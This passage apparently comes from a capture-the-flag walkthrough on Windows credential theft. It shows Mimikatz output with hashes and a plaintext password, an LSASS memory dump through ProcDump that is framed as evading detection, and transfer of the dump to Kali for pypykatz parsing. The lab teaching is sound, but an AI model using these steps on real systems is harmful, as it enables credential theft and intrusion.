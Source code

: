 **Expected Output (Partial)**:
```
Authentication Id : 0 ; 245743 (00000000:0003bfef)
Session           : Interactive from 1
User Name         : jsmith
Domain            : DESKTOP-TEI5A1Q
Logon Server      : DESKTOP-TEI5A1Q
Logon Time        : 9/15/2025 8:00:00 AM
SID               : S-1-5-21-xxx-xxx-xxx-1001
        msv :
         [00000003] Primary
         * Username : jsmith
         * Domain   : DESKTOP-TEI5A1Q
         * NTLM     : 3e3e4c7f12afe3c99ff56cef3216897d
         * SHA1     : a9f4d2e1b5f6e7a3c2d9e0f1a2b3c4d5e6f7a8b9
        wdigest :
         * Username : jsmith
         * Domain   : DESKTOP-TEI5A1Q
         * Password : Welcome1
        
Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
[...]

Special Flag Entry: FLAG{B**********0}
```

**🎯 FLAG 3 FOUND**: FLAG{B**********0} - In LSASS memory

**Why This Works**: Windows keeps credentials in LSASS memory for Single Sign-On (SSO). WDigest (when enabled) stores plaintext passwords!

#### Alternative Method: LSASS Dump Without Mimikatz

```powershell
# Method 2: Using ProcDump (Microsoft signed, less likely to be detected)
*Evil-WinRM* PS C:\Temp> .\procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[10:30:15] Dump 1 initiated: C:\Temp\lsass.dmp
[10:30:16] Dump 1 writing: Estimated dump file size is 54 MB.
[10:30:18] Dump 1 complete: 54 MB written in 2.1 seconds
[10:30:19] Dump count reached.

# Transfer dump to Kali for offline analysis
*Evil-WinRM* PS C:\Temp> download lsass.dmp
```

On Kali, analyze with pypykatz:
```bash
┌──(kali㉿kali)-[~/loot]
└─$ pypykatz lsa minidump lsass.dmp

[... credential output ...]
FLAG found in memory: FLAG{B************0}
```
